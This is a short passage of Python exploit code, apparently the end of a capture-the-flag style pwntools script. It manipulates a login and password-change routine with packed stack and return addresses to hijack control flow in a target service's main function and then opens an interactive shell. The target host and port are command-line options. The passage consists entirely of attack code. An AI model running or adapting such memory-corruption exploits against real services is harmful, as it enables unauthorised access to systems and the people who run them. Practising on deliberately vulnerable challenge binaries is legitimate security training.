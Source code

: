 ``` python

    # restore admin->pw
    logout(s)
    login(s, b"Welcome!", p64(ret) + p64(len(payload)))
    change_pw(s, p64(stack) + p64(0x8))

    # trigger ret in main
    logout(s)
    quit_(s)

    s.interactive()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```